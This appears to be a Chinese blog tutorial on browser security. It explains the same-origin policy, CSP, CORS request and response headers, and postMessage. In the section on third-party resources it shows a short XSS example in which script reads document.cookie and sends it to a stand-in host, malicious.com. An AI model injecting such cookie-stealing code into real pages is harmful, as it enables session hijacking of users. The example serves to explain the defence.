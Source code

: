 ## 一、浏览器安全

无风险的世界不存在，包括浏览器，我们知道Web世界是开放的，包容的。但是开放和风险是对立的。

Web 世界会是开放的，任何资源都可以接入其中，我们的网站可以加载并执行别人网站的脚本文件、图片、音频 / 视频等资源，甚至可以下载其他站点的可执行文件。

比如你打开了一个银行站点，然后又一不小心打开了一个恶意站点，如果没有安全措施，恶意站点就可以做很多事情：
- 修改站点的 DOM、CSSOM 等信息；
- 在银行站点内部插入 JavaScript 脚本；
- 劫持用户登录的用户名和密码；
- 读取银行站点的 Cookie、IndexDB 等数据；
- 甚至还可以将这些信息上传至自己的服务器，这样就可以在你不知情的情况下伪造一些转账请求等信息。

在没有安全保障的 Web 世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全，这就引出了页面中最基础、最核心的安全策略，同源策略（Same-origin policy）

浏览器安全可以分为三大块——Web 页面安全、浏览器网络安全、浏览器系统安全


![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/c2f93c6deb6f4f9d82c5baf593e1ff68~tplv-k3u1fbpfcp-watermark.image?)

## 二、浏览器是如何工作的

思考几个问题：
- 为什么某些页面会崩溃？
- 为什么页面崩溃后重新打开就正常了？
- 为什么单个tab页面、插件崩溃不会影响其他Tab？
- 为什么有时候浏览器突然退出？


![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/fadd1da2be7c4d0bbd387f00f90ec2ba~tplv-k3u1fbpfcp-watermark.image?)

浏览器的多进程架构
![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/8cafb762399e4a60b9b41409c5e0d6cb~tplv-k3u1fbpfcp-watermark.image?)

![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/125e945965b342ed8269f7653c2e9be8~tplv-k3u1fbpfcp-watermark.image?)


## 三、什么同源策略？

如果两个 URL 的`协议`、`域名`和`端口`都相同，我们就称这两个 URL 同源

```
http://ux.admin.com/task
http://wx.admin.com/ticket
https://ux.admin.com/ticket
http://csm.admin.com/dashboard
https://ux.admin.com:8080/api
```
浏览器默认两个相同的源之间是可以相互访问资源和操作 DOM 的。

### 1、Dom安全

通过window.open打开页面

![操作常见的源](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/bf630d9518f94e40815e19fb78867f7f~tplv-k3u1fbpfcp-zoom-1.image)

![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/58c656e7985b46ebb1dae3ee66094468~tplv-k3u1fbpfcp-zoom-1.image)

![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/ef7744ce93584fdd87b04b132334a826~tplv-k3u1fbpfcp-zoom-1.image)

### 2、数据层面。

同源策略限制了不同源的站点读取当前站点的 Cookie、IndexDB、LocalStorage 等数据。由于同源策略，我们依然无法通过第二个页面的 opener 来访问第一个页面中的 Cookie、IndexDB 或者 LocalStorage 等内容。

### 3、网络层面。

同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。你还记得在

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/04f27ce76e2e4714a6d3b10f40c782ba~tplv-k3u1fbpfcp-watermark.image?)
![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/b506a5bebe534d8aa30ac41ecf923593~tplv-k3u1fbpfcp-watermark.image?)

以上就是同源策略，同源策略会隔离不同源的Dom、数据和网络通信等。

但在实际工作中，常常需要不同域名进行访问，不同资源的访问，所以为了发展，就需要出让一些安全策略，满足发展的需要。

## 四、同源策略带来的一些问题

### 1、页面中可以嵌入第三方资源

Web 世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 HTML 文件、JavaScript 文件、CSS 文件、图片等资源都部署在同一台服务器上，这无疑违背了 Web 的初衷，也带来了诸多限制。

比如将不同的资源部署到不同的 CDN 上时，CDN 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。

比如，恶意程序在 HTML 文件内容中插入如下一段 JavaScript 代码：

![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/f32cd7c5bad14171bbaa3da22498d19f~tplv-k3u1fbpfcp-zoom-1.image)

当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。


除此之外，它还能将页面的的敏感数据，如 Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：

```js
function onClick(){ 
    let url = `http://malicious.com?cookie = ${document.cookie}` 
    open(url)
}

onClick()
```

在这段代码中，恶意脚本读取 Cookie 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 Cookie 信息。

以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。

CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码

通过这些手段就可以大大减少 XSS 攻击。

### 2、跨域资源共享

为了解决这个问题，我们引入了跨域资源共享（CORS)

使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。

正常情况下发送跨域请求，浏览器自动添加Origin字段，告诉服务器本次请求的协议、域名和端口号

```
GET /cors HTTP/1.1
Origin: http://api.bob.com
Host: api.alice.com
Accept-Language: en-US
Connection: keep-alive
User-Agent: Mozilla/5.0...
```
返回相应头中包含了可以允许跨域的信息，如果响应头中没有包含Access-Control-Allow-Origin，就可能出现错误
```
Access-Control-Allow-Origin: http://api.bob.com
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: FooBar
Content-Type: text/html; charset=utf-8
```
withCredentials

CORS请求默认不发送Cookie和HTTP认证信息

如果要发送服务器，服务器和客户端都要增加参数

```
Access-Control-Allow-Credentials: true
```

```
var xhr = new XMLHttpRequest();
xhr.withCredentials = true;
```


### 3、跨文档消息机制

可以通过 window.postMessage 的 JavaScript 接口来和不同源的 DOM 进行通信。


```js
/*
 * A窗口的域名是<http://example.com:8080>，以下是A窗口的script标签下的代码：
 */

var popup = window.open(...popup details...);

// 如果弹出框没有被阻止且加载完成

// 这行语句没有发送信息出去，即使假设当前页面没有改变location（因为targetOrigin设置不对）
popup.postMessage("The user is 'bob' and the password is 'secret'",
                  "https://secure.example.net");

// 假设当前页面没有改变location，这条语句会成功添加message到发送队列中去（targetOrigin设置对了）
popup.postMessage("hello there!", "http://example.org");

function receiveMessage(event)
{
  // 我们能相信信息的发送者吗?  (也许这个发送者和我们最初打开的不是同一个页面).
  if (event.origin !== "http://example.org")
    return;

  // event.source 是我们通过window.open打开的弹出页面 popup
  // event.data 是 popup发送给当前页面的消息 "hi there yourself!  the secret response is: rheeeeet!"
}
window.addEventListener("message", receiveMessage, false);

```


## 五、小结

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/0c6dcc8f3ce74d96b1fd195f75e1d826~tplv-k3u1fbpfcp-watermark.image?)


## 六、参考文章
- [阮一峰CORS](http://www.ruanyifeng.com/blog/2016/04/cors.html)
- [csp](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)
